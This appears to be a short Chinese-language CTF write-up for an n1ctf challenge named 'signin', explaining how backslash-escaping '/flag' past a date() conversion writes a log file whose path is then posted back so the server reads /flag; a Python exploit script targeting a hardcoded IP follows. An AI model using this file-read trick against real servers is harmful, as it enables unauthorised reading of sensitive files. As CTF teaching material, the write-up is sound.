


#  signin

题目源码如下：



由于后端有过滤机制，不能直接把/flag作为path的内容post上去，所以需要进行两次post。

首先，post的内容（php://input）为/flag，由于后端有一个date的转换，所以需要在每个字符前加上\。

这时候会得到一个内容为“/flag”的txt文件，再次post，这回参数path的内容为这个txt的路径，后端会读取它内容里的路径，得到/flag的内容。



EXP：
```python
import requests
import re

url = 'http://43.155.64.70/'
r1 = requests.post(url+'?time=', data="\\/\\f\\l\\a\\g")
print(r1.text)
pattern = re.compile("logpath:/var/www/tmp.*\.txt")
log = re.findall(pattern, r1.text)[0].lstrip("logpath:")
print(log)

r2 = requests.post(url, data={"path": log})
print(r2.text)
pattern = re.compile("n1ctf\{.*\}")
flag = re.findall(pattern, r2.text)[0]
print(flag)
```
